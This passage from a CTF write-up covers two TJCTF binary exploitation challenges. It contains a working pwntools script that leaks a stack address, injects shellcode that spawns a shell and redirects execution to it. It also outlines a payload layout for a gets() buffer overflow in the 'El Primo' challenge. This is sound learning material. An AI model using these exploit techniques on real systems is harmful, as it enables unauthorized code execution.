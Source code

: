 ```python
r.sendline(payload)  
sleep(1)  
r.recvline() # for remote only  
leak = int(r.recvline().split("tree ")[1].split(" :(")[0].rstrip()) & 0xFFFFFFFF # get leaked address for s buffer  
log.info("leak: " + hex(leak))  
  
r.recv()  
  
payload = "\x90" * 100 + asm(shellcraft.i386.sh()) # setup buffer with shellcode  
#payload += cyclic(412)  
payload += "A" * 128 # padding to control eip  
payload += p32(leak + 0x4) # jump to shellcode which is setup on the stack  
  
log.info("jumping to: " + hex(leak + 4))  
r.sendline(payload)  
r.recvline()  
  
r.interactive()
```

#### El Primo
```
Written by agcdragon

My friend just started playing Brawl Stars and he keeps raging because he can't beat El Primo! Can you help him?

nc p1.tjctf.org 8011
```

The following is the main function and it looked similar to OSRS
```c
  char local_30 [32];
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("What\'s my hard counter?");
  printf("hint: %p\n",local_30);
  gets(local_30);
  return 0;
```
Essentially we are given are leak to the local_30 variable and then a gets which gives us a buffer overflow. I wasn't actually able to solve this problem because I kept segfaulting, however after reading this writeup [here](https://ctftime.org/writeup/20726) by b4n4n4s. The problem I was facing became clear. Essentially it is similar to OSRS in that we must write shellcode and then jump to it. The problem is that the gets is in the main function and not it's own side function. This means we need to take extra care to look at the actual assembly behind the function and understand what it is doing. The main difference with OSRS here and what b4n4n4s does in his writuep is that the goal is to set ESP to the address of the shellcode, not EIP. Furthermore, there is some interesting assembly which sets the value of ESP and we must manipulate it. The details in the writeup are pretty good but essentially we find the offset to ECX, write into that the the address of the address we want to jump to. We can use cyclic and gdb to find the offset to ECX is 32 which is what the writeup does. I will not writeup my own solution to this because the writeup does a great job but for my own reference, the final payload should look like this
 ```
offset
hint+offset+4
hint+offset+16
nop sleds
shellcode
```
